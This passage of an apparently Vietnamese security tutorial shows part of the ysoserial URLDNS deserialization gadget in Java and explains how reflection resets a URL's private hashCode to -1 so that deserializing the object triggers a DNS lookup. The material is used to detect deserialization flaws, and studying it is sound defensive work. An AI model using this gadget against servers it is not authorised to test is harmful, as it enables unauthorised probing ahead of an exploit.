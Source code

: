 ```

                return ht;
        }

        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }

        /**
         * <p>This instance of URLStreamHandler is used to avoid any DNS resolution while creating the URL instance.
         * DNS resolution is used for vulnerability detection. It is important not to probe the given URL prior
         * using the serialized object.</p>
         *
         * <b>Potential false negative:</b>
         * <p>If the DNS name is resolved first from the tester computer, the targeted server might get a cache hit on the
         * second resolution.</p>
         */
        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }

                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}
```

Đây là mã chain trong yoserial-all.jar nó sẽ thực hiện điều này bằng cách khai báo một URL u `URL u = new URL(null, url, handler);` -> khai báo một ht là hashMap `HashMap ht = new HashMap();` -> put u vào trong ht -> gọi đến `Reflections.setFieldValue(u, "hashCode", -1)` ở đây ta có thể thấy nó set lại giá trị của hashCode bằng -1 để có thể nhảy đến gadget `hashCode = handler.hashCode(this);`

![image](https://hackmd.io/_uploads/HkIBoqT2A.png)

Sau khi put URL obj vào ht, HashMap sẽ thay đổi giá trị của trường giá trị hashCode của URL thành giá trị mới khác -1 nên chương trình sẽ không nhảy vào đường "bóng" mà chúng ta yêu cầu -> vì vậy ngay sau đó sẽ dùng `Field f1 = <Some Class>.getDeclaredField(<Field Name>);` đây `<Some Class>` chúng ta có thể là URL.class hoặc gián tiếp như `Class.forName(“java.net.URL”)` như trong bài java reflection đã được đề cập đến

Do trường hashCode được khai báo với dạng private cho nên ta không thể thao tác trực tiếp ngay với nó được mà phải `f1.setAccessible(true);`

-> sau đó thì ta đã có thể set giá trị cho nó mặc dù nó được khai báo private `f1.set(u, -1)`

f1 là trường hashCode của class URL 1 LÀ object của class URL, -1 là giá trị cần set
